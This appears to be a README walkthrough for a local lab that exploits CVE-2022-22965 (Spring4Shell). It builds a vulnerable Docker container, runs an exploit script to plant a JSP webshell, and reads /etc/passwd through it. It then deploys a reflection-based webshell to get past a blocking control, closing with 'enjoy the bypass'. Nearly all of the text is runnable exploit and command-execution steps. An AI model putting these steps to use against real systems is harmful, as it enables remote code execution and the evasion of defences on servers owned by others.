 1. mvn clean package
2. cd ..
3. docker build . -t cve-2022-22965-exploit -f bypassing-using-reflection-abuse/Dockerfile
4. docker run -p 8080:8080 -p 8000:8000 cve-2022-22965-exploit
5. curl http://localhost:8080/exploit/greeting
6. python3 -m pip install -r requirements.txt
7. python3 exploit.py --url="http://localhost:8080/exploit/greeting" --dir="webapps/ROOT" --file="basic" 
8. curl "http://localhost:8080/basic.jsp?cmd=cat%20/etc/passwd" and see that we are blocked
![block.png](block.png)
9. Now deploy another webshell that uses reflection;
`   python3 exploit.py --url="http://localhost:8080/exploit/greeting" --dir="webapps/ROOT" --file="reflection" 
`
10. curl "http://localhost:8080/reflection.jsp?cmd=cat%20/etc/passwd" and enjoy the bypass
 ![bypass.png](bypass.png)